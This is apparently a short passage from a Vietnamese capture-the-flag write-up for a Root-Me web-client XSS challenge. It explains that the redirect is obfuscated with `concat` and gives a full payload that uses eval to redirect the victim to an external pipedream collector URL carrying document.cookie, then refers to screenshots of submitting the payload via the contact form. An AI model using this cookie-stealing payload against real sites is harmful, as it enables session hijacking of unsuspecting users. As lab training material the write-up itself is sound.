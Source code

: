 - Ta cần obfuscate đoạn redirect. 1 cách đơn giản là sử dụng `concat`:

```
challenge01.root-me.org/web-client/ch33/?number=' == (eval)(document.location='https'.concat('://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?c='.concat(document.cookie)))//
```

- Nhận được kết quả:

![1](1/../img/21/Screenshot%20from%202023-01-29%2021-21-59.png)

- Gửi qua tab `contact`:

![1](1/../img/21/Screenshot%20from%202023-01-29%2021-25-56.png)
